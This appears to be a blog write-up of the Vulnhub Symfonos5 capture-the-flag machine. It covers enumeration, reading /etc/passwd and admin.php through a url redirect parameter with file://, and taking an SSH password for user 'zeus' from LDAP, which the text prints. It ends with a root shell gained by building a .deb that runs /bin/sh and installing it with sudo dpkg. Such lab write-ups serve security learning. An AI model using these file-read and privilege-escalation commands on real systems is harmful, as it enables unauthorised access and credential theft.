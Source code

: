 ```yaml
---
layout: post
title: Vulnhub - Symfonos5 writeup
date: 2019-01-10 8:00 PM
---
```


## Nmap

![](images/sym5/nmap.png)

We see that there is LDAP service and usual HTTP & SSH service. Let's start our enumeration with HTTP service.

***

## HTTP

![](images/sym5/website.png)

I ran gobuster on that and found some pages:

![](images/sym5/gobuster.png)

When we visit `/home.php` we are redirected to `/admin.php` so I used `httpie` to visit the page and there we can notice that there is some `/home.php?url` kind of redirection done.

![](images/sym5/URL.png)

So [theart42](twitter.com/theart42) said that we can try to read files via that redirect, so we did

```bash
➜ http http://192.168.177.129/home.php\?url\=file:///etc/passwd
```

And we'd get the content of `/etc/passwd` file.

![](images/sym5/passwd.png)

Since we can read files we decided to read `admin.php` and in that we found the password for admin. The path for the file would be `/var/www/html/admin.php`
![](images/sym5/password.png)

***

## LDAP

The password we got from `admin.php` for accessing LDAP service. If you are not using Kali linux then you can download [`ldapadmin`](https://github.com/ibv/LDAP-Admin/releases), this is a GUI tool to access LDAP services. I tried using jxplorer but that didn't worked for me.

You can add a new connection in LDAP-admin in the following way:

![](images/sym5/connections.png)

And then once we connect we can see that there is a `uid=zeus` which contains the password for `zeus`.

![](images/sym5/zeus-pass.png)

`zeus:cetkKf4wCuHC9FET`

I used these credentials to connect to SSH service.

![](images/sym5/ssh.png)

***

## Privelege Escalation

The first thing that I checked was the `sudo rights`

![](images/sym5/sudo-rights.png)

We are allowed to run `dpkg` as root user. I used [gtfo]() to search gtfobin for `dpkg` and it actually had a way to exploit those sudo rights.

![](images/sym5/gtfo.png)

I ran the following commands on my own system:

```bash
➜ echo 'exec /bin/sh' > x.sh
➜ fpm -n x -s dir -t deb -a all --before-install x.sh .
➜ mv x_1.0_all.deb hack.deb
```

![](images/sym5/deb.png)

Then I tranfered the `.deb` file to the machine and got the root shell by running:

```bash
sudo dpkg -i hack.deb
```

![](images/sym5/root.png)
